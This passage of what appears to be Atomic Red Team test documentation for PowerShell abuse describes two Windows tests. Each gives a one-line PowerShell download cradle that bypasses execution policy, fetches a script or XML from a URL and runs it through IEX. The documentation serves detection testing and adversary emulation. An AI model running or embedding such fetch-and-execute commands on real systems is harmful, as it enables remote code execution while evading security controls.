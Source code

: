 Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 388a7340-dbc1-4c9d-8e59-b75ad8c6d5da





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```






<br/>
<br/>

## Atomic Test #7 - Powershell XML requests
Powershell xml download request. Upon execution, "Download Cradle test success!" will be dispalyed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 4396927f-e503-427b-b023-31049b9b09a6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.xml|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```



